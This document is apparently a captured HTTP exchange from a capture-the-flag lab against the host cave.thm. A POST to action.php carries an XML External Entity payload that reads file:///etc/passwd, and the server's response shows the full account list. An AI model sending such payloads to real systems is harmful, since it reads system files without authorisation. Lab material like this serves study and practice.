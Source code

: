 POST /action.php HTTP/1.1
Host: cave.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://cave.thm
Connection: close
Referer: http://cave.thm/

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>



HTTP/1.1 200 OK
Date: Thu, 25 Sep 2025 23:24:15 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1413
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
cave:x:1000:1000:,,,:/home/cave:/bin/bash
door:x:1001:1001:,,,:/home/door:/bin/bash
skeleton:x:1002:1002:,,,:/home/skeleton:/bin/bash
